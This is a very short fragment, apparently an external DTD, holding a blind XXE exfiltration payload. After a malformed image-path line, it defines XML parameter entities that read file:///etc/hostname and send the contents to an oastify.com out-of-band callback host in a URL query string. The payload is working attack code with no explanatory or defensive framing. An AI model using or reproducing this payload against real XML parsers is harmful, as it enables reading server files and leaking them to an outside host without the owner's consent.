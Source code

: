 <!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://vhg2tjf70r712n1g56xyt08vzm5dt5hu.oastify.com/?x=%file;'>">
%eval;
%exfil;
